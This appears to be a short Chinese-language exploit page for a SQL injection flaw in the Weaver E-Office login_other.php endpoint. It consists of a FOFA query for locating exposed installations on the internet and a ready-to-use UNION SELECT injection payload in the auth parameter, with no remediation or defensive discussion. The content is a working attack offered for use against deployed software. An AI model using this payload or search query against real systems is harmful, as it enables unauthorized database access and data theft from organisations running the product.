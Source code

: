 ## 泛微E-Office系统login_other.php存在sql注入漏洞

泛微E-Office系统/E-mobile/Data/login_other.php?diff=sync&auth=存在sql注入漏洞

## fofa

```
app="泛微-EOffice"
```

## poc

```
/E-mobile/Data/login_other.php?diff=sync&auth={"auths":[{"value":"-1' UNION SELECT 1,2,md5(123456),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51%23"}]}
```

![image-20240605101147774](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406051011840.png)